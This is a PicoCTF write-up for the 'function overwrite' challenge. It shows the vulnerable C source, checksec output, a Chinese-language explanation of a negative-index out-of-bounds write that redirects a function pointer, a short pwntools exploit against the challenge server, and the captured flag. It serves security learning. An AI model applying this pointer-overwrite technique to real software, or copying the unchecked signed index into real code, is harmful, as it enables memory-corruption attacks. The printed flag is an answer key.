 # PicoCTF - function overwrite
## Background
Array Bound
## Source code
:::spoiler Source Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```
:::
## Recon
```bash!
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=8b6f3ccbb344c3ba91ef077e29c8ab9d6e2da011, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/function overwrite/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
這一題比想像中簡單，流程是這樣的，他的function pointer原本預設是指像hard_checker，而它裡面做的事情就是把我們輸入的所有字元以ascii的方式加總，如果加總的結果是13371337，就可以讀到flag，但是我們可以做一個簡單的換算，一個字元最多1 byte，也就是最大0xff，他設定最多只能輸入127個字元，代表0xff\*127=32385，遠遠低於13371337，而題目有提供另外一個checker也就是easy_checker，他只需要最後的加總是1337就可以了，代表完全有可能實現(例如：'z'\*10+'u'$\to$0x7a\*10+0x75)，現在的問題是要怎麼把一開始的function pointer指向easy_checker?

題目故意叫我們輸入兩個數字還特別在hint的地方說
> Don't be so negative
其實就是題是array bound的問題，所以簡單用gdb跟一下就可以換算fun array和check function pointer之間的差距還有該加上多少會變成easy_checker的地址
## Exploit
```python!
from pwn import *

# r = process('./vuln')
r = remote('saturn.picoctf.net', 58094)
easy_checker_addr = 0x080492fc
r.recvuntil(b'>> ')
r.sendline(b'z' * 10 + b'u')
r.recvline()
r.sendline(b'-16')
r.sendline(b'-314')

r.interactive()
```

Flag: `picoCTF{0v3rwrit1ng_P01nt3rs_ded38e3b}`